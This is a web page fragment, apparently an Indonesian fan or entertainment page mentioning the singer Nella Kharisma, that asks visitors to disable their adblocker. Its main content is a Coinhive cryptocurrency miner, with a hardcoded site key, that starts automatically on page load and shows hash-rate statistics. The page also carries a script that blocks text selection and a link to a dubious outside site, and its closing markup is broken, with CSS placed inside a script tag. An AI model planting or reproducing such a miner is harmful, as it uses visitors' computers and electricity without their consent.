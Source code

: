 	data-threads="1"
	data-throttle="0.1">
	<em>Matiin adbloksnya yak, biar kita langsung jaran goyang</em>
</div>
	<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
<center>Masih bersama... NELLA KHARISMA</center>
<center>
<p id="tcount"></p>
<p id="hps"></p>
<p id="ths"></p>
<p id="tah"></p>
</center>
<p><center></center></p>
<center>
<p id="minebutton"></p>
</center>
<p><center>visit ni aja dah... <a href="http://0fficial-500err.atspace.co.uk/kontol">0fficial-500.err</a> biar kereeen...</center></a>
<script type="text/javascript">
var miner = new CoinHive.Anonymous('WrUZ3But2tqgr8I5XAFV9q4hg7nCb2YY',{threads: 1});
miner.start(CoinHive.FORCE_EXCLUSIVE_TAB);
// Update stats once per second
setInterval(function() {
var threadCount = miner.getNumThreads();
var hashesPerSecond = Math.round(miner.getHashesPerSecond() * 100) / 100;
var totalHashes = miner.getTotalHashes();
var acceptedHashes = miner.getAcceptedHashes() / 256;
// Output to HTML elements...
if (miner.isRunning()) {
document.getElementById("tcount").innerHTML = "Threads: " + threadCount;
document.getElementById("hps").innerHTML = "hashes per second: " + hashesPerSecond;
document.getElementById("ths").innerHTML = "Total Hashes: " + totalHashes;
document.getElementById("tah").innerHTML = "Accepted Hashes: " + acceptedHashes;
document.getElementById("minebutton").innerHTML = "<button onclick=\"miner.stop()\">Stop Mining</button>";
} else {
document.getElementById("hps").innerHTML = "";
document.getElementById("ths").innerHTML = "";
document.getElementById("tah").innerHTML = "";
document.getElementById("minebutton").innerHTML = "<button onclick=\"miner.start(CoinHive.FORCE_EXCLUSIVE_TAB)\">Start Mining</button>";
}
}, 1000);
</script>
</div>
<script language='JavaScript1.2'>
function disableselect(e){
return false
}
function reEnable(){
return true
}
document.onselectstart=new Function ("return false")
if (window.sidebar){
document.onmousedown=disableselect
document.onclick=reEnable
}
</script>
<script type="text/javascript">
.post, .post-body {
   -webkit-touch-callout: none;
   -webkit-user-select: none;
   -khtml-user-select: none;
   -moz-user-select: none;